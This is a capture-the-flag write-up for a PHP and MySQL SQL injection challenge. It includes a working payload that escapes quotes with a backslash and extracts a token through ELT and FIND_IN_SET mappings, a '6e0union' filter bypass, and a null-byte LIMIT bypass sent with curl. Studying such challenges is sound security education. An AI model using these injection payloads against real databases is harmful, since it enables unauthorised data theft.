 ## Writeup
### Intended solution
The give patch shows that some security mechanism were added. One of them was a blacklist that filters some chracters in the search string:
```php
$blacklist = array('\'', '"', '/', '*');
return str_replace($blacklist, '', $input);
```
But this sanitize function is incomplete and doesn't filter the backslash character, which allows us to escape the last single quote where the search query is inserted, like so:
```MySQL
WHERE first_name='injection here and escape last quote like so # \'
OR last_name='injection here and escape last quote like so \'
ORDER BY id ASC LIMIT 5
```

This allows us to do a SQL injection, but the problem is that we couldn't use 'union' because it is being detected and and exception is thrown (or not, see the unintended solution section).
Another limitation is the 'LIMIT 5' at the end, which we can't bypass because there is a newline between the injection and the limit statement and we can only perform single line comments.

Furthermore, the patch also introduces as token which changes after every 10 requests, that means that we have to perform an injection that allows us to extract the token in less than 10 requests.
It was also possibel to retrieve a database dump from the students, by navigating to the panels section (it was hidden as a HTML comment), this dump will be usful for the final injection query.

How do we extract a 40 chracter string using the above injection in less than 10 tries?!

The idea is to create a mapping between user id (given as a search result) and a character in the string as well as the string position. For example, when the student with ID 1 is returned, that means that we have chracter 'a' at the first posiiton in the string, if student with ID 20 is returned that would mean that the second position in the string is an 'a'. This allows us to read 5 chracters at a time (with enough students to create the mapping).

This could be the mapping for the first position in the string, so if one of these IDs is returned we know which chracter is at the first position.
| 1 | 3 | 4 | 6 | 7 | 10 | 11 | 13 | 14 | 16 | 18 | 19 | 20 | 21 | 22 | 23|
|---|---|---|---|---|----|----|----|----|----|----|----|----|----|----|---|
| a | b | c | d | e | f  | 0  | 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9 |

To do this kind of mapping in MySQL we can use the functions **ELT** and **FIND_IN_SET**

So our injection will look like this:
```
 OR id IN (<mapping right here>)
```

Here is what the mapping looks like from my exploit (for the first 5 chracters of the token):
```
 OR id IN (
 (select elt((select find_in_set((select substring(token, 1, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),1,2,3,4,5,6,7,8,9,11,12,14,16,17,20,24)),
 (select elt((select find_in_set((select substring(token, 2, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),25,26,27,31,32,33,34,35,36,37,38,39,40,41,42,43)),
 (select elt((select find_in_set((select substring(token, 3, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),44,45,46,47,48,49,50,51,52,53,55,56,57,58,59,60)),
 (select elt((select find_in_set((select substring(token, 4, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),61,62,63,64,66,67,69,70,71,72,73,74,75,76,77,78)),
 (select elt((select find_in_set((select substring(token, 5, 1) from tb8210aa9c07bdd4),0x612c622c632c642c652c662c302c312c322c332c342c352c362c372c382c39)),79,80,81,82,83,84,85,89,90,91,92,93,94,95,96,97))
 ) # \
```

The above statement is one request and returns 5 chracters, we can repeat that 7 more times to get the rest of the 35 chracters.

### Unintended solution
Unfortunately there is also an unintended solution (which I didn't know about that that could actually work) which bypasses the union check.
It can be bypassed with some MySQL madness (I have no idea why this even works), which I didn't know about even existed, so something new is learned, but it made the challenge easier than expected :/

```
or 1=6e0union select 1,2,3 #\
```

I hope you still had fun working on it.

### Unintended solution 2
It was actually possible to bypass the 'LIMIT 5' by ending the payload with a null byte followed by the backslash because mysql_query() would interpret it as EOF.

```
MySQL
WHERE first_name='injection here and escape last quote like so \x00\'
OR last_name='injection here and escape last quote like so \x00\'
ORDER BY id ASC LIMIT 5
```
######Using cURL
```
curl -X POST --data "name= OR id=<injection>;%00\&site=default&action=search" <Website> 
```
Using this technique allowed the output of 160 ids at the time, making the challenge possible to solve in a single request the "intended" way.
